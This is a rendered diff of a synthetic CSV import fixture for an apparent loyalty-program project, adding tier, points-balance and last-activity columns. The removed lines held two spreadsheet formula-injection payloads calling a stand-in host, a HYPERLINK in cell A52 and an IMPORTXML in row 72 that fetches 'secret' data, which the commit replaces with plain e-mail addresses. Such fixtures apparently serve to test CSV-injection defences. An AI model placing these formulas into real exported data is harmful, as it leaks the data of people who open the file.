

Before and after one commit to diepulp/pt-2, a CSV file: docs/00-vision/csv-import/test-import-100-rows.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; removed rows and columns are numbered as before the commit, all else as after; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/docs/00-vision/csv-import/test-import-100-rows.csv
+++ b/docs/00-vision/csv-import/test-import-100-rows.csv
-column F, empty
+column F (Loyalty Tier), rows 2-10: Gold | Platinum | Silver | Bronze | Gold | Silver | Platinum |  | Gold; rows 49-56: Bronze | Silver | Gold | Diamond | Silver | Gold | Bronze | Platinum; rows 69-71: Bronze | Platinum | Silver; rows 73-78: Bronze | Silver | Gold | Platinum | Bronze | Silver
+column G (Points Balance), rows 2-10: 12500 | 45200 | 3200 | 800 | 15800 | 4100 | 52000 | 0 | 11200; rows 49-56: 950 | 5800 | 16800 | 78000 | 4200 | 13500 | 1400 | 53000; rows 69-71: 1700 | 50000 | 4800; rows 73-78: 650 | 6900 | 19100 | 44000 | 1300 | 5100
+column H (Last Activity), rows 2-10: 2025-12-01 | 2026-01-15 | 2025-11-20 | 2025-10-05 | 2026-02-01 | 2025-09-30 | 2026-01-28 |  | 2025-12-15; rows 49-56: 2025-09-05 | 2025-11-22 | 2026-01-02 | 2026-02-14 | 2025-10-18 | 2025-12-05 | 2025-07-28 | 2026-02-02; rows 69-71: 2025-09-12 | 2026-02-06 | 2025-11-18; rows 73-78: 2025-07-05 | 2025-10-20 | 2026-01-28 | 2025-12-22 | 2025-08-20 | 2025-11-12
-A52 (e-mail): +HYPERLINK("http://evil.com")
+A52 (e-mail): adam.cook@gmail.com
-row 72: =IMPORTXML("http://evil.com" | //secret) | (555)101-2071 | Vince | Price | 1994-03-30
+row 72: vince.price@gmail.com | (555)101-2071 | Vince | Price | 1994-03-30 | Gold | 12200 | 2025-12-10
```
Also changed, not shown: 1 other file.
